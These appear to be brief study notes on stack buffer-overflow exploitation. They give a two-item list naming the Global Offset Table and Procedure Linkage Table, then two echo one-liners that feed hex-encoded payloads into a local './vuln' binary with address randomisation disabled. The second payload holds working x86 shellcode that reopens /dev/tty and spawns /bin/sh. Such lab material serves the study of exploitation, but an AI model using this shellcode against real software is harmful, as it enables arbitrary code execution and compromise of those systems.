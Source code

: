 - Global Offset Table
- Procedure Linkage Table


print exit status of shell: `echo $?`

```sh
echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x28\xcd\xff\xff\x90\x90\x90\x90\x31\xc0\x40\x89\xc3\xcd\x80" | setarch "$(uname -m)" -R ./vuln
```

```sh
echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x28\xcd\xff\xff\x90\x90\x90\x90\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" | setarch "$(uname -m)" -R ./vuln
```